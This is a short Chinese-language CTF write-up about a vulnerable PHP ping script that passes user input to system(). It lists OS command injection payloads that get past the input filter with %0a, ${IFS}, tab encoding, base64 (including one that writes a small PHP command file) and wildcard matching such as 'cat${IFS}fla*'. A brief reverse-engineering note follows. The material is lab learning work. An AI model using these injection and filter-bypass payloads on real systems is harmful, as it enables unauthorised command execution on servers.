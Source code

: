 ````php

$ip = sanitize($ip);

if (!preg_match('/((\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])/', $ip)) {
    die('Invalid IP Address');
}

system('ping -c 4 '.$ip. ' 2>&1');

?>
````
参考[0xGame 2023 - CSDN](https://blog.csdn.net/m0_74317362/article/details/133947590)

`; `⽤ `%0a` 绕过, 空格⽤ `${IFS}` 绕过, `/` 以及 `flag` ⽤ base64 编码绕过:

post`ip=127.0.0.1|ls%09..`发现`geek`目录;

post`ip=127.0.0.1|echo%09"PD9waHAgc3lzdGVtKCdscyAuLi9nZWVrJyk7"|base64%09-d%09>2.php`，执行无响应。。。

然后就解不出来了。。。查看WP:

``输入127.0.0.1&&cd${IFS}..&&cd${IFS}geek&&ls切换到geek目录中，发现flag.php``

> 因为过滤了flag，所以可以用`cat${IFS}fla*`来查看其中内容

通配符绕过过滤！学到了！

得到flag:`geek{hello geeker}`

## reverse

### reverse1

`IDA Pro`反编译在main函数中找到了flag{ajsju19hLDUkdrs8KB6Sl}

![reverse1](reverse1.png)
